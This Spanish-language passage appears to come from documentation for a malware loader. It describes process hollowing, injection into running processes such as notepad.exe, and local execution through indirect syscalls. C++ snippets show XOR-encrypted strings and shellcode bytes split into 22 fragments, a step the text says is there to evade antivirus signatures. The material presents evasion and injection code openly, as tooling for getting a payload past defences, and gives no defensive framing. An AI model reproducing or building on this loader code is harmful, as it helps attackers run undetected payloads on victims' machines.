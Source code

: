 La técnica más sofisticada que utiliza es el Process Hollowing, que consiste en:
1. Crear un proceso legítimo en estado suspendido
2. Vaciar su espacio de memoria
3. Reemplazarlo con el payload malicioso
4. Modificar el punto de entrada
5. Reanudar la ejecución

#### 5.2 Inyección en Proceso Remoto
```cpp
if (InjectIntoProcess(combinedShellcode, shellcodeSize)) {
    std::cout << "Inyeccion completada" << std::endl;
    delete[] combinedShellcode;
    return 0;
}
```

Si el Process Hollowing falla, intenta inyectar el código en procesos legítimos en ejecución como notepad.exe, mspaint.exe, etc.

#### 5.3 Ejecución Local
```cpp
// Si falla la inyeccion, usar técnica de memoria local
SIZE_T size = shellcodeSize;
LPVOID memory = NULL;

// Asignar memoria usando syscall indirecta
NTSTATUS status = APIs.NtAllocateVirtualMemory(GetCurrentProcess(), &memory, 0, &size, 
                                              MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Como último recurso, ejecuta el payload en el espacio de memoria del propio proceso.

## Técnicas Utilizadas

### 1. Ofuscación y Evasión

#### 1.1 Encriptación de Cadenas
Utiliza un sistema de encriptación XOR para cadenas de texto, evitando que los análisis estáticos detecten strings sospechosos.

```cpp
#define ENC_STR(str) []() { \
    constexpr auto encrypted = encrypt_string(str, sizeof(str) - 1); \
    constexpr EncryptedString<encrypted.size()> es(encrypted); \
    return es; \
}()
```

#### 1.2 Shellcode Fragmentado
El shellcode está dividido en 22 partes diferentes para evadir firmas antivirus:

```cpp
unsigned char part1[] = { 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xcc,0x00,0x00,0x00,0x41 };
unsigned char part2[] = { 0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60 };
// ... más partes
```
